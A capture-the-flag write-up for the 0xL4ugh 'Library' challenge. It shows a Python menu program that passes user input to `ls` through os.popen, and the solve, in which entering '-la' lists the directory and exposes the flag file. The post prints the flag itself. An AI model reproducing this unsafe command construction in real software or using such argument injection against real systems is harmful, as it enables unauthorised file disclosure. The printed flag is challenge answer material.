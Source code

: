 ```yaml
---
layout: post
title:  "laugh ctf"
date:   2024-02-11 09:29:20 +0700
categories: laugh ctf
usemathjax: true
---
```

## challenge
https://ctf24.0xl4ugh.com/challenges#Library-17
## files
```
C:\home\radha\Downloads\laugh_ctf\misc\library\Library> ls   
Dockerfile  build-docker.sh  challenge.py  exec.sh
```
## docker file 
```
FROM alpine:latest@sha256:51b67269f354137895d43f3b3d810bfacd3945438e94dc5ac55fdac340352f48
ENV PAGER=''
ENV FLAG='0xL4ugh{F4k3_Fl4G_F0r_T4stIng}'
RUN apk add socat python3 py3-pip
RUN adduser -D challenger
RUN pip3 install rich  --break-system-packages
WORKDIR /home/challenger
USER challenger
COPY challenge.py .
COPY exec.sh . 
ENTRYPOINT ["sh","exec.sh"]

```
### analysis
- we see flag is set as part of env varaible
## challenge.py
- it is a long file 
- find it (here)[https://drive.google.com/file/d/1xeojgJlid9T974jVUWzozuHCzlpgM_Ly/view?usp=drive_link]
## analysis
- at line 7 os module is imported 
- so a quick serach for where `os `is used 
- one place to get a random number ,user dont have contorl over the input line28
- another place line 136
```
def check_file_presence():
    book_name = shlex.quote(console.input("[bold blue]Enter the name of the book (file) to check:[/bold blue] "))
    command = "ls " + book_name

    try:
        result = os.popen(command).read().strip()
        print(result)
        if result == book_name:
            console.print(f"[bold green]The book is present in the current directory.[/bold green]")
        else:
            console.print(f"[bold red]The book is not found in the current directory.[/bold red]")
    except Exception as e:
        console.print(f"[bold red]Error: {e}[/bold red]")
```
- a quick search for when this funciton is called leads us to line 208

elif choice == 8:
            check_file_presence()



- so we need to give option 8
- our input is appended to ls command(long list of files)
- just tried ls -la

```
C:\tmp> nc 172.190.120.133 50003

Library Management System
1. Add Member
2. Add Book
3. Display Books
4. Search Book
5. Check Out Book
6. Return Book
7. Save Book
8. Check File Presence
0. Exit
Enter your choice (0-8): 8
Enter the name of the book (file) to check: -la
total 84
-rw-r--r--    1 challeng challeng         9 Feb 10 10:47 $FLAG
-rw-r--r--    1 challeng challeng         9 Feb  9 23:13 *
drwxr-sr-x    1 challeng challeng      4096 Feb 10 10:47 .
drwxr-xr-x    1 root     root          4096 Feb  1 14:20 ..
-rw-r--r--    1 challeng challeng        11 Feb 10 08:46 .env
-rw-r--r--    1 challeng challeng         9 Feb 10 10:35 0xL4ugh{TrU5t_M3_LiF3_I5_H4rD3r!}
-rw-r--r--    1 challeng challeng         9 Feb  9 18:22 <__main__.SaveFile object at 0x7f07dd284050>
-rw-r--r--    1 challeng challeng         9 Feb  9 21:50 <__main__.SaveFile object at 0x7f3807760310>
-rw-r--r--    1 challeng challeng         9 Feb  9 21:51 <__main__.SaveFile object at 0x7f380778a8d0>
-rw-r--r--    1 challeng challeng         9 Feb  9 21:54 <__main__.SaveFile object at 0x7f380778e090>
-rw-r--r--    1 challeng challeng         9 Feb 10 01:40 <__main__.SaveFile object at 0x7fbc9d0dab10>
-rw-r--r--    1 challeng challeng        11 Feb 10 10:46 FLAG
-rw-r--r--    1 challeng challeng         9 Feb  9 18:00 a
-rw-r--r--    1 challeng challeng         9 Feb  9 23:08 afkjkadf
-rw-rw-r--    1 root     root          8975 Jan 31 22:43 challenge.py
-rw-rw-r--    1 root     root           103 Jan 31 22:19 exec.sh
-rw-r--r--    1 challeng challeng         9 Feb  9 20:46 print()
-rw-r--r--    1 challeng challeng        11 Feb 10 01:39 {FLAG}
The book is not found in the current directory.

Library Management System
1. Add Member

```
and hhere is the flag
```-rw-r--r--    1 challeng challeng         9 Feb 10 10:35 0xL4ugh{TrU5t_M3_LiF3_I5_H4rD3r!}```
